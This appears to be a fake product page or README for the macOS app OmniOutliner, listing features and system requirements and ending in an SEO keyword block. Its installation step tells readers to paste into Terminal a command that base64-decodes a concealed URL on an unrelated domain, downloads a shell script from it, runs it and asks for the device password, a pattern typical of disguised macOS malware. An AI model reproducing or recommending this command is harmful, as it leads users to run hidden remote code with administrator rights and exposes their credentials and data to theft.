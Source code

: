 # 📝 OmniOutliner for macOS

## About
OmniOutliner for macOS is a versatile outlining and note-structuring tool designed for professionals, students, and creatives. It allows you to organize complex ideas, manage projects, and format content with ease.

## 📥 Installation via a command in the terminal:
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9jb2luc3RhdHMvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## Overview
![Overview 1](https://support.omnigroup.com/doc-assets/OmniOutliner-Mac/OmniOutliner-Mac-v5.0.1.0/en/EPUB/art/oo5mac_intro01.png)  
![Overview 2](https://i.ytimg.com/vi/d5QvHHEmiEw/maxresdefault.jpg)

## Key Features
- 🗂️ Flexible outlining and hierarchy management  
- 🎨 Customizable styles and themes  
- 🔍 Powerful search and filtering  
- 📤 Multiple export formats  
- 🖥️ Optimized for macOS interface and shortcuts  
- 📱 Sync across macOS and iOS devices

## System Requirements
- macOS 11.0 Big Sur or later  
- 4 GB of system memory or more  
- 200 MB of available disk space  
- Internet connection for activation

## SEO Keywords
OmniOutliner macOS · outlining software · note organization Mac · project structuring macOS · brainstorming tool Mac · professional outliner · OmniGroup apps

